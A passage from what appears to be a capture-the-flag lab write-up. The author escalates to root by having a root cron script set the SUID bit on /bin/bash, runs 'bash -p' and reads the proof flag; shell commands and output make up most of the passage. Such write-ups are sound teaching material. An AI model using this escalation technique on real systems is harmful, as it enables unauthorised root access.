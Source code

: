 I tried for reverse shell but not got that So what I did was that the script add a SUID bit to a binary , that I will have access to. The script runs every minute (according to the crontab). So a minute later I check the find binary and…

```bash
[alfredo@fedora restapi]$ ls -al /bin/bash
-rwxr-xr-x. 1 root root 1390080 Jan 25  2021 /bin/bash
[alfredo@fedora restapi]$ 
[alfredo@fedora restapi]$ ls -al /bin/bash
-rwsr-xr-x. 1 root root 1390080 Jan 25  2021 /bin/bash
```
{: .nolineno}
{: .nolineno}

Now lets root this machine with bash command →

```bash
[alfredo@fedora restapi]$ /bin/bash -p
bash-5.1# whoami
root
bash-5.1# id
uid=1000(alfredo) gid=1000(alfredo) euid=0(root) groups=1000(alfredo)
bash-5.1# cd /root
bash-5.1# ls -al
total 56
dr-xr-x---.  3 root root  210 Jul  6 03:22 .
dr-xr-xr-x. 17 root root  244 Mar 28 03:19 ..
-rw-------.  1 root root  665 Jan 24 05:22 anaconda-ks.cfg
-rw-------.  1 root root  260 Mar 28 03:23 .bash_history
-rw-r--r--.  1 root root   18 Jan 28  2021 .bash_logout
-rw-r--r--.  1 root root  141 Jan 28  2021 .bash_profile
-rw-r--r--.  1 root root  429 Jan 28  2021 .bashrc
-rw-r--r--.  1 root root 9526 Jan 12 07:50 [build.sh](http://build.sh/)
-rw-r--r--.  1 root root  100 Jan 28  2021 .cshrc
-rw-------   1 root root   20 Mar 28 03:22 .lesshst
-rwx------.  1 root root   33 Jul  6 03:23 proof.txt
-rw-r--r--.  1 root root 4529 Mar 28 03:09 [run.sh](http://run.sh/)
drwx------.  2 root root   38 Mar 28 03:18 .ssh
-rw-r--r--.  1 root root  129 Jan 28  2021 .tcshrc
bash-5.1# cat proof.txt
72240fac56d1edb09c402c9d6cd99d0e
bash-5.1#
```
{: .nolineno}

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }